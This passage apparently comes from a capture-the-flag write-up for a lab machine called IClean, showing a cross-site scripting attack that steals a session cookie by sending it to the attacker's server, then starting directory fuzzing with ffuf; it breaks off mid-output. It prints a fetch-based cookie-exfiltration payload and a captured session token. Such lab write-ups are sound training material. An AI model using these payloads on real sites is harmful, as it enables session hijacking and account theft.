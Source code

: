 The response doesn't change, but we receive a request for test.jpg from the machine's IP (10.10.11.12):

![request for test.jpg](/assets/images/IClean/request-for-test.jpg.png)

I will try to retrieve somebody's cookie by injecting a script which sends a request to my server with his cookie as the route. Trying with `<script>fetch("http://10.10.15.95/"+document.cookie)</script>` doesn't works but with a onerror declaration of an img tag, I can successfully retrieve somebody's cookie:

![onerror img send cookie](/assets/images/IClean/onerror-img-send-cookie.png)

```c
10.10.11.12 - - [31/Jul/2024 00:44:32] code 404, message File not found
10.10.11.12 - - [31/Jul/2024 00:44:32] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZqlNgw.V8pGQ30feKi2NhOM1MrEEUvxMcY HTTP/1.1" 404 -
```

Fuzzing to find a route where this cookie would be useful, I can see /dashboard, which without cookie gives a redirect to /:

```c
❯ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -u http://capiclean.htb/FUZZ -mc all -fc 404

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
```
